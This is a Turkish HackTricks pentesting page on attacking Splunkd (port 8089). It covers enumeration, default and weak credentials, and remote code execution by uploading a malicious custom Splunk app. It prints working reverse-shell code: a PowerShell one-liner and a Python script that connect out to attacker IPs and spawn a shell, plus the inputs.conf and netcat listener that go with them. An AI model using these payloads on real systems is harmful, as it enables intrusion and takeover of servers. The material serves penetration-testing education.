 # 8089 - Pentesting Splunkd

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## **Temel Bilgiler**

Splunk, **veri toplama, analiz etme ve görselleştirme** konusunda kritik bir rol oynayan bir **log analitik aracı**dır. Başlangıçta bir **SIEM (Güvenlik Bilgisi ve Olay Yönetimi)** aracı olarak hizmet vermek amacıyla tasarlanmamış olsa da, **güvenlik izleme** ve **iş analitiği** alanında popülerlik kazanmıştır.

Splunk dağıtımları genellikle **hassas verileri** depolamak için kullanılır ve sistemin ele geçirilmesi durumunda potansiyel saldırganlar için **değerli bir bilgi kaynağı** olabilir. **Varsayılan port:** 8089
```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```
{% hint style="info" %}
**Splunk web sunucusu varsayılan olarak 8000 numaralı portta çalışır**.
{% endhint %}

## Enumeration

### Ücretsiz Versiyon

Splunk Enterprise denemesi **60 gün sonra ücretsiz versiyona dönüşür**, bu da **kimlik doğrulama gerektirmez**. Sistem yöneticilerinin Splunk'ın deneme sürümünü test etmek için kurması ve bunun **sonrasında unutulması** yaygın bir durumdur. Bu, kimlik doğrulama gerektirmeyen ücretsiz versiyona otomatik olarak dönüşecektir ve bu da ortamda bir güvenlik açığı oluşturur. Bazı organizasyonlar, kullanıcı/rol yönetiminin olmamasıyla ilgili sonuçları tam olarak anlamadan bütçe kısıtlamaları nedeniyle ücretsiz versiyonu tercih edebilir.

### Varsayılan Kimlik Bilgileri

Eski Splunk sürümlerinde varsayılan kimlik bilgileri **`admin:changeme`** olup, bu bilgiler giriş sayfasında rahatlıkla görüntülenir.\
Ancak, **Splunk'ın en son sürümü** **kurulum sürecinde** **kimlik bilgilerini** ayarlar. Varsayılan kimlik bilgileri çalışmazsa, `admin`, `Welcome`, `Welcome1`, `Password123` gibi yaygın zayıf şifreleri kontrol etmekte fayda vardır.

### Bilgi Edinme

Splunk'a giriş yaptıktan sonra, **verileri gözden geçirebilir**, **raporlar** çalıştırabilir, **gösterge panelleri** oluşturabilir, Splunkbase kütüphanesinden **uygulamalar** yükleyebilir ve özel uygulamalar yükleyebilirsiniz.\
Ayrıca kod çalıştırabilirsiniz: Splunk, sunucu tarafı Django uygulamaları, REST uç noktaları, betik girdi ve uyarı betikleri gibi **kod çalıştırmanın** birçok yoluna sahiptir. Bir Splunk sunucusunda uzaktan kod yürütmenin yaygın bir yöntemi, betik girdi kullanmaktır.

Ayrıca, Splunk Windows veya Linux ana bilgisayarlarında kurulabileceğinden, Bash, PowerShell veya Batch betiklerini çalıştırmak için betik girdileri oluşturulabilir.

### Shodan

* `Splunk build`

## RCE

### Özel Uygulama Oluşturma

Özel bir uygulama **Python, Batch, Bash veya PowerShell betikleri** çalıştırabilir.\
**Splunk'ın Python ile yüklü geldiğini** unutmayın, bu nedenle **Windows** sistemlerinde bile python kodu çalıştırabileceksiniz.

Bize yardımcı olması için [**bu**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk paketini kullanabilirsiniz. Bu repo içindeki **`bin`** dizini, [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) ve [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1) için örnekler içermektedir. Bunu adım adım inceleyelim.

Bunu başarmak için, önce aşağıdaki dizin yapısını kullanarak özel bir Splunk uygulaması oluşturmamız gerekiyor:
```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```
**`bin`** dizini, **çalıştırmayı planladığımız** herhangi bir **script** içerecektir (bu durumda, bir **PowerShell** ters shell), ve varsayılan dizin `inputs.conf` dosyamızı içerecektir. Ters shell'imiz bir **PowerShell one-liner** olacak:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```
[inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) dosyası Splunk'a **hangi scriptin çalıştırılacağını** ve diğer koşulları belirtir. Burada uygulamayı etkin olarak ayarlıyoruz ve Splunk'a scripti her 10 saniyede bir çalıştırmasını söylüyoruz. Aralık her zaman saniye cinsindendir ve girdi (script) yalnızca bu ayar mevcutsa çalışacaktır.
```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```
`.bat` dosyasına ihtiyacımız var, bu dosya uygulama dağıtıldığında çalışacak ve PowerShell tek satırlık komutunu yürütecek.

Sonraki adım, `Install app from file` seçeneğini seçmek ve uygulamayı yüklemektir.

<figure><img src="../.gitbook/assets/image (668).png" alt=""><figcaption></figcaption></figure>

Kötü niyetli özel uygulamayı yüklemeden önce, Netcat veya [socat](https://linux.die.net/man/1/socat) kullanarak bir dinleyici başlatalım.
```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```
`Upload app` sayfasında, göz at'a tıklayın, daha önce oluşturduğumuz tarball'ı seçin ve `Upload`'a tıklayın. **Uygulamayı yüklediğimiz anda**, uygulamanın durumu otomatik olarak `Enabled` olarak değişeceği için bir **ters shell alınır**.

#### Linux

Eğer bir **Linux host** ile uğraşıyorsak, tarball'ı oluşturmadan ve özel kötü amaçlı uygulamayı yüklemeden önce **`rev.py` Python betiğini** **düzenlememiz** gerekecektir. Sürecin geri kalanı aynı kalacak ve Netcat dinleyicimizde bir ters shell bağlantısı alacağız ve yarışa başlayacağız.
```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```
### RCE & Yetki Yükseltme

Aşağıdaki sayfada bu hizmetin nasıl kötüye kullanılabileceğine dair bir açıklama bulabilirsiniz, yetkileri yükseltmek ve kalıcılık elde etmek için:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Referanslar

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
